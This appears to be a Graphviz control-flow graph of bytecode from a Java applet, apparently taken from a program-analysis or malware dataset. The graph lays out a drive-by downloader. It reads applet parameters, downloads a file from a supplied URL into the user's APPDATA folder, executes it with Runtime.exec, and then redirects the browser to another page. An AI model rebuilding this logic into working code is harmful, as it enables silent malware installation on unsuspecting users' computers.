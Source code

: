 digraph "" {
    "r0 := @this: Java"
    "staticinvoke <java.util.Locale: java.util.Locale getDefault()>"
    "r0 := @this: Java"->"staticinvoke <java.util.Locale: java.util.Locale getDefault()>";
    "virtualinvoke <java.util.Locale: java.lang.String getCountry()>"
    "staticinvoke <java.util.Locale: java.util.Locale getDefault()>"->"virtualinvoke <java.util.Locale: java.lang.String getCountry()>";
    "pop"
    "virtualinvoke <java.util.Locale: java.lang.String getCountry()>"->"pop";
    "push \"os.name\""
    "pop"->"push \"os.name\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"os.name\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"pop";
    "push \"java.runtime.version\""
    "pop"->"push \"java.runtime.version\"";
    "push \"java.runtime.version\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"pop";
    "push \"APPDATA\""
    "pop"->"push \"APPDATA\"";
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"
    "push \"APPDATA\""->"staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>";
    "store.r r5"
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"->"store.r r5";
    "load.r r0"
    "store.r r5"->"load.r r0";
    "push \"YourFile\""
    "load.r r0"->"push \"YourFile\"";
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"
    "push \"YourFile\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "store.r r6"
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"store.r r6";
    "store.r r6"->"load.r r0";
    "push \"GoTo\""
    "load.r r0"->"push \"GoTo\"";
    "push \"GoTo\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "store.r r31"
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"store.r r31";
    "new java.io.FileOutputStream"
    "store.r r31"->"new java.io.FileOutputStream";
    "store.r $r14"
    "new java.io.FileOutputStream"->"store.r $r14";
    "load.r $r14"
    "store.r $r14"->"load.r $r14";
    "new java.lang.StringBuilder"
    "load.r $r14"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "load.r r5"
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r5";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "load.r r5"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r6"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r6";
    "load.r r6"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "store.r r8"
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"store.r r8";
    "new java.net.URL"
    "store.r r8"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r0";
    "push \"YourDirectLink\""
    "load.r r0"->"push \"YourDirectLink\"";
    "push \"YourDirectLink\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>";
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"->"virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>";
    "store.r r11"
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"->"store.r r11";
    "push 1024"
    "store.r r11"->"push 1024";
    "newarray"
    "push 1024"->"newarray";
    "store.r r12"
    "newarray"->"store.r r12";
    "load.r r11"
    "store.r r12"->"load.r r11";
    "load.r r12"
    "load.r r11"->"load.r r12";
    "push 0"
    "load.r r12"->"push 0";
    "push 0"->"load.r r12";
    "arraylength"
    "load.r r12"->"arraylength";
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"
    "arraylength"->"virtualinvoke <java.io.InputStream: int read(byte[],int,int)>";
    "store.i $i2"
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"->"store.i $i2";
    "load.i $i2"
    "store.i $i2"->"load.i $i2";
    "push -1"
    "load.i $i2"->"push -1";
    "ifcmpeq.i load.r r11"
    "push -1"->"ifcmpeq.i load.r r11";
    "ifcmpeq.i load.r r11"->"load.r $r14";
    "load.r $r14"->"load.r r12";
    "load.r r12"->"push 0";
    "push 0"->"load.i $i2";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"
    "load.i $i2"->"virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>";
    "goto load.r r11"
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"goto load.r r11";
    "store.r r0"
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"store.r r0";
    "return"
    "store.r r0"->"return";
    "ifcmpeq.i load.r r11"->"load.r r11";
    "virtualinvoke <java.io.InputStream: void close()>"
    "load.r r11"->"virtualinvoke <java.io.InputStream: void close()>";
    "virtualinvoke <java.io.InputStream: void close()>"->"load.r $r14";
    "virtualinvoke <java.io.FileOutputStream: void close()>"
    "load.r $r14"->"virtualinvoke <java.io.FileOutputStream: void close()>";
    "load.r r8"
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"load.r r8";
    "load.r r8"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r5";
    "load.r r5"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r6";
    "load.r r6"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "pop"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "load.r r31"
    "dup1.r"->"load.r r31";
    "checkcast"
    "load.r r31"->"checkcast";
    "checkcast"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"checkcast";
    "checkcast"->"store.r r5";
    "store.r r5"->"load.r r0";
    "virtualinvoke <Java: java.applet.AppletContext getAppletContext()>"
    "load.r r0"->"virtualinvoke <Java: java.applet.AppletContext getAppletContext()>";
    "virtualinvoke <Java: java.applet.AppletContext getAppletContext()>"->"load.r r5";
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"
    "load.r r5"->"interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1";
    "goto return"
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"->"goto return";
    "goto return"->"return";
}
